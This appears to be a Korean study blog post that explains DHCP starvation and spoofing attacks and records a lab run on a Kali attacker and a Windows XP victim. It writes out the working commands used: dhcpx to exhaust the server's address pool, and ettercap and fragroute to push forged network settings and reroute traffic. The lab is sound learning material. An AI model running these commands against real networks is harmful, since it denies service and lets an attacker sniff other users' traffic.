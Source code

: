 ```yaml
---
title:  "DHCP Attack" 

categories:
  - spoofing
tags:
  - [DHCP]

toc: true

date: 2022-10-04
last_modified_at: 2022-10-04
---
```


## DHCP Attack

- DHCP Attack
  - 공격자가 DHCP 클라이언트 또는 서버로 위장하여 변조된 DHCP 메시지를 이용하여 수행하는 공격
  - 정상 DHCP서버를 마비(Dos) 시키거나 클라이언트에게 변조된 네트워크 정보를 전달하여 데이터의 전달 흐름을 공격자로 유도(Sniffing) 함

- DHCP 취약점
  - UDP를 이용 함 → 비 신뢰성, 비 연결성 - DHCP 자체의 인증 메커니즘이 없음  누구나 원할 때 클라이언트, 서버 역할을 할 수 있음 → 진위성을 확인할 수 없음  Client → 요청으로 전달한 XID, port의 일치 여부만 확인  Server → MAC주소로 Client 구분만 함

- DHCP Attack 분류
  - DHCP Starvation → DHCP Server의 Pool을 모두 소모시키는 공격 → Dos Attack
  기존의 DHCP 서버의 기능을 사용하지 못하게 하는것 : 가용성 공격
  - DHCP Spoofing → DHCP Client에게 조작된 네트워크 정보를 전달하는 공격 DHCP 서버를 사칭 : 무결성 공격

- 환경 구성

  - DHCP 서버 구성![화면 캡처 2022-10-04 180253](../../assets/img/화면 캡처 2022-10-04 180253.png)

    ![화면 캡처 2022-10-04 180406](../../assets/img/화면 캡처 2022-10-04 180406.png)

    ![화면 캡처 2022-10-04 180428](../../assets/img/화면 캡처 2022-10-04 180428.png)

    ![화면 캡처 2022-10-04 180506](../../assets/img/화면 캡처 2022-10-04 180506.png)

    ![화면 캡처 2022-10-04 180541](../../assets/img/화면 캡처 2022-10-04 180541.png)

    ![화면 캡처 2022-10-04 180952](../../assets/img/화면 캡처 2022-10-04 180952.png)

  - DHCP 클라이언트  테스트

    ```
    C:\Documents and Settings\ktest>ipconfig /all
    ```

    ![화면 캡처 2022-10-04 181054](../../assets/img/화면 캡처 2022-10-04 181054.png)

    > 주소 임대 해제

    ```
    C:\Documents and Settings\ktest>ipconfig /release
    ```

    ![화면 캡처 2022-10-04 181125](../../assets/img/화면 캡처 2022-10-04 181125.png)

    > 주소 재 임대

    ```
    C:\Documents and Settings\ktest>ipconfig /renew
    ```

    ![화면 캡처 2022-10-04 181148](../../assets/img/화면 캡처 2022-10-04 181148.png)

## DHCP startvation

- 구성도

![Untitled (1)](../../assets/img/Untitled (1)-1664881561157-16.png)

- 설정

  - kali

    ```
    ┌──(root㉿kali)-[~]
    └─# dhcpx 
    ```

    ![화면 캡처 2022-10-04 181352](../../assets/img/화면 캡처 2022-10-04 181352.png)

    ![화면 캡처 2022-10-04 181552](../../assets/img/화면 캡처 2022-10-04 181552.png)

    ```
    kali 2016] 
    └─# dhcpx -i eth0 -D 172.16.0.105
    ```

    ![화면 캡처 2022-10-04 190653](../../assets/img/화면 캡처 2022-10-04 190653.png)

  - xp

    > 주소 임대 실패

    ```
    C:\Documents and Settings\ktest>ipconfig /renew
    ```

    ![화면 캡처 2022-10-04 192654](../../assets/img/화면 캡처 2022-10-04 192654.png)

    ![화면 캡처 2022-10-04 193044](../../assets/img/화면 캡처 2022-10-04 193044.png)

    ![화면 캡처 2022-10-04 190707](../../assets/img/화면 캡처 2022-10-04 190707.png)

- DHCP Spoofing

  - ettercap 을 이용한 dhcp spoofing

    ```
    kali 2016] 
    └─# ettercap -i eth0 -T -M dhcp:172.16.0.80-90/255.255.255.0/203.248.252.2   -> 80~90번대로 받도록 한다
    ```

    ![Untitled](../../assets/img/Untitled-1664882805513-25.png)

    ```
    xp]
    C:\Documents and Settings\ktest>release
    C:\Documents and Settings\ktest>renew
    ```

    ![화면 캡처 2022-10-04 193746](../../assets/img/화면 캡처 2022-10-04 193746-1664883063272-32.png)

    ```
    C:\Documents and Settings\ktest>ipconfig /all
    ```

    ![화면 캡처 2022-10-04 193839](../../assets/img/화면 캡처 2022-10-04 193839.png)

    ```
    kali 2016]
    # fragroute -B1
    ```

    ![Untitled](../../assets/img/Untitled-1664883930848-36.png)

    ```
    xp]
    ping 8.8.8.8
    ```

    ![화면 캡처 2022-10-04 200044](../../assets/img/화면 캡처 2022-10-04 200044.png)



<br>

[맨 위로 이동하기](#){: .btn .btn--primary }{: .align-right}